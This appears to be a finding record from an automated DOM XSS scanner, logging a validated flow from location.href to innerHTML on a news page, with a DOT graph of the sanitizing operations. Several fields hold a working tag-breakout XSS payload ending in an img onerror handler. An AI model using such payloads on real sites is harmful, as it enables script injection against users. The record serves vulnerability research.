 // Finding: eae2fe7b-0e3a-4dfb-9387-9ef9f02dd2a6
// Finding.url: https://www.example351.com/news/details/2315899##"></iframe></style></script></object></embed></textarea><img src=x onerror=taintfoxLog('c89bdba4363c413897acc61ad2325948')><!--/*
// Finding.parentloc: https://www.example351.com/news/details/2315899##"></iframe></style></script></object></embed></textarea><img src=x onerror=taintfoxLog('c89bdba4363c413897acc61ad2325948')><!--/*
// Finding.domain: www.example351.com
// Finding.base_domain: example351.com
// Finding.source: location.href
// Finding.sink: innerHTML
// Sanitizer.score: 4
// Sanitizer.name: 
// Sanitizer.location: https://www.example351.com/news/details/2315899##"></iframe></style></script></object></embed></textarea><img src=x onerror=taintfoxLog('c89bdba4363c413897acc61ad2325948')><!--/* line 1 > eval - <anonymous>:2:15
// Finding.begin: 11384
// Finding.end: 11637
// Finding.original_uuid: db25e8ec-d883-408d-bbd6-1a26be2ac5cc
// Finding.TwentyFiveMillionFlowsId: -635249693
// Finding.script: https://www.example351.com/news/details/2315899##"></iframe></style></script></object></embed></textarea><img src=x onerror=taintfoxLog('c89bdba4363c413897acc61ad2325948')><!--/* line 1 > eval
// Finding.line: 2
// Exploit.uuid: c89bdba4-363c-4138-97ac-c61ad2325948
// Exploit.success: true
// Exploit.status: validated
// Exploit.method: C
// Exploit.type: html
// Exploit.token: attribute
// Exploit.content: href
// Exploit.quote_type: "
// Exploit.tag: a
// Exploit.break_out: #"></iframe></style></script></object></embed></textarea><img src=x onerror=
// Exploit.break_in: ><!--/*
// Exploit.payload: #"></iframe></style></script></object></embed></textarea><img src=x onerror=taintfoxLog(1)><!--/*
// Exploit.begin_taint_url: 0
// Exploit.end_taint_url: 50
// Exploit.replace_begin_url: 50
// Exploit.replace_end_url: 50
// Exploit.replace_begin_param: 116
// Exploit.replace_end_param: 116
// Issues.LargestEncodeAttrStringChain: 1
// Issues.LargestTextFragmentEncodeChainLength: 0
// Issues.HasApproximation: false
// Issues.HasMissingImplementation: false
// Issues.HasInfiniteRegexWithFunctionReplacer: false
// Issues.MergedSplitAndJoins: false
// Issues.HasUrlInRhsOfReplace: false
// Issues.HasUrlInLhsOfReplace: false
// Issues.HasCookieValueInLhsOfreplace: false
// Issues.HasCookieValueInRhsOfreplace: false
// Issues.HasCookieValueInMatchPattern: false
// Issues.HasCookieValueInExecPattern: false
// Issues.RemovedLRConcats: false
// Issues.RemovedReplaceArtifacts: false
// Issues.HasUrlInMatchPattern: false
// Issues.HasUrlInExecPattern: false
// Issues.RemovedNOPreplaces: false
// Issues.Known_sanitizer: false
// DepGraph.hash: -2143593932
// DepGraph.sanitizer_hash: -1175160097
// Large chain of EncodeAttrString Operations (1) 
digraph cfg {
n0 [shape=house, label="Input: x"];
n1 [shape=ellipse, label="split"];
n2 [shape=box, label="Lit: #{"];
n3 [shape=box, label="Var: x"];
n4 [shape=ellipse, label="substr"];
n5 [shape=box, label="Var: x"];
n6 [shape=box, label="Lit: 0"];
n7 [shape=box, label="Lit: 300"];
n8 [shape=ellipse, label="preg_replace"];
n9 [shape=box, label="RegExp: /(^\s+|\s+$)/"];
n10 [shape=box, label="Lit: "];
n11 [shape=box, label="Var: x"];
n12 [shape=ellipse, label="encodeURIComponent"];
n13 [shape=box, label="Var: x"];
n14 [shape=ellipse, label="."];
n15 [shape=box, label="Lit: du="];
n16 [shape=ellipse, label="."];
n17 [shape=box, label="Lit: &"];
n18 [shape=ellipse, label="."];
n19 [shape=box, label="Lit: &"];
n20 [shape=ellipse, label="."];
n21 [shape=box, label="Lit: https://s7.addthis.com/static/sh.f48a1a04fe8dbf021b4cda1d.html#"];
n22 [shape=ellipse, label="encodeAttrString"];
n23 [shape=box, label="Var: x"];
n24 [shape=ellipse, label="."];
n25 [shape=box, label="Lit: <link href='https://cdn.speakol.com/video-js.css' rel='stylesheet'>"];
n26 [shape=box, label="Var: x"];
n27 [shape=doubleoctagon, label="Return: x"];
n3 -> n0;
n1 -> n2;
n1 -> n3;
n5 -> n1;
n4 -> n5;
n4 -> n6;
n4 -> n7;
n11 -> n4;
n8 -> n9;
n8 -> n10;
n8 -> n11;
n13 -> n8;
n12 -> n13;
n14 -> n15;
n14 -> n12;
n16 -> n17;
n16 -> n14;
n18 -> n16;
n18 -> n19;
n20 -> n21;
n20 -> n18;
n23 -> n20;
n22 -> n23;
n24 -> n22;
n24 -> n25;
n26 -> n24;
n27 -> n26;
}